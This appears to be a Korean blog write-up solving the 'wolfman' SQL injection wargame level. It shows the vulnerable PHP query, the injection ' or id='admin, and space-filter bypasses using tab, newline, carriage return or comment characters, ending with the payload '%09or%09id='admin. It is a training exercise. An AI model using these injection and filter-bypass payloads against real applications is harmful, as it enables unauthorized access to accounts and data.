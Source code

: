 
# [05] wolfman

## 문제
<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FbFoJny%2Fbtrm82gU3RC%2FdeJNraK8yM7BkOkUOlEtik%2Fimg.png">

## 풀이
preg_match로 공백 문자를 필터링하고 있음을 알 수 있다.

따라서 쿼리문 삽입 시 공백을 적절한 문자로 대체해주어야 한다.

<br>
 
먼저, solve 조건은 다음과 같다.


```python
if($result['id'] == 'admin') solve("wolfman");
```


fetch된 레코드의 id가 admin일 시 문제가 풀리게 됨을 알 수 있다.

<br>

다음은 쿼리문을 보겠다.


```python
$query = "select id from prob_wolfman where id='guest' and pw='{$_GET[pw]}'";
```

admin을 fetch 해주려면

싱글쿼터로 pw를 닫아준 후,

**or id='admin**' 으로 id가 admin인 레코드를 뽑아주면 된다.

<br>

즉, 주입해야할 쿼리문은 다음과 같다.


```
' or id='admin
```

<br>
 
그런데 이 문제에서는 파라미터에 공백이 포함되어있을 시 접근을 제한하고 있기 때문에,

앞서 인지했던 것처럼 공백을 다른 문자로 대체해주어야 한다.

<br>

**공백 필터링 우회**를 위한 적절한 대체 문자의 예시는 다음과 같다.


1. Tab : %09

2. \n : %0a

3. \r : %0d

4. 주석 : /**/

5. 그 외

<br>

이 중 Tab을 선택해 최종 주입할 쿼리문을 정했다.


```
'%09or%09id='admin
```

## 결과
<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FdqzwKS%2FbtrmY5fpiKW%2FqOnb4odHpy19ov8szVsPk1%2Fimg.png">